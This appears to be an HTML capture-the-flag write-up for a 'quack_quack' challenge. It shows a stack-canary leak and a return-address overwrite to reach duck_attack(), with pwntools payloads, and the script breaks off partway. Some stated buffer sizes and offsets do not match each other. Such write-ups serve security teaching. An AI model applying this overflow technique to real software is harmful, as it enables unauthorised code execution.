             <h3>Disassembly Analysis:</h3>
            <pre><code class="language-python">read(0, buf, 0x66uLL);</code></pre>
            <ul>
                <li>The first <code>read()</code> reads <b>102 bytes (0x66)</b> into <code>buf</code>, but <code>buf</code> is only <b>4x8 = 32 bytes</b> long. This means we can overflow into the canary.</li>
                <li>The input is checked for the substring <b>"Quack Quack "</b>.</li>
                <li>The correct input is printed back, leaking the stack canary.</li>
            </ul>
        </div>
        <div class="section-content">
            <h3>Exploitation Plan:</h3>
            <ol>
                <li><b>Leak the canary</b> using the first <code>read()</code>.</li>
                <li><b>Overflow into the return address</b> in the second <code>read()</code>.</li>
                <li><b>Redirect execution to <code>duck_attack()</code></b>, which gives us the flag.</li>
            </ol>
        </div>
        <div class="section-content">
            <h3>Exploit Development</h3>
            <h4>Step 1: Leak the Canary</h4>
            <pre><code class="language-python">payload1 = b"A"*89  # Overwrite up to canary
payload1 += b"Quack Quack "  # Trigger correct input check</code></pre>
            <h4>Step 2: Overwrite the Return Address</h4>
            <pre><code class="language-python">payload2 = b"B"*88  # Fill buffer up to canary
payload2 += p64(canary)  # Insert correct canary value
payload2 += b"B"*8  # Overwrite saved RBP
payload2 += b"\x7f\x13"  # Address of duck_attack()</code></pre>
            <h5>This ensures we:</h5>
            <ul>
                <li>Preserve the canary (to avoid crashing).</li>
                <li>Overwrite the return address to <code>duck_attack()</code>.</li>
            </ul>
            <h4>Step 3: Send Payload</h4>
            <pre><code class="language-python">io.sendline(payload2)
io.interactive()</code></pre>
        </div>
        <div class="section-content">
            <div class="h4-wrapper">
        <h4>Complete Exploit:</h4>
             <button class="copy-btn">Copy</button>
    </div><pre><code class="language-python">from pwn import *
io = process("quack_quack")

# Leak Canary
payload1 = b"A"*89
payload1 += b"Quack Quack "
io.recvuntil(b">")
io.sendline(payload1)
canary = int.from_bytes(b'\x00' + io.recvuntil(b">")[13:20], 'little')
